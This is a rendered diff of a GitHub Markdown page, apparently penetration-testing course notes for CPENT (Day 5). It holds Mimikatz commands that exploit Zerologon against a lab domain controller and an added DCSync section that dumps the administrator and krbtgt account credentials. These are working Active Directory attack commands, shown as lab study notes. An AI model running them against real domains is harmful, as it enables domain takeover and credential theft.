

Before and after one commit to favorite986141/jamescao, a Markdown page: Cpent/Day5.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/Cpent/Day5.md
+++ b/Cpent/Day5.md
@@ -97,3 +97,7 @@ Zerologon
     lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit
     lsadump::postzerologon /target:192.168.177.19 /account:server2019$
 ![image](https://github.com/user-attachments/assets/07bd99c9-3e5b-417a-b4ce-33f5628990bd)
+dcsync
+---
+    lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator
+lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt
```
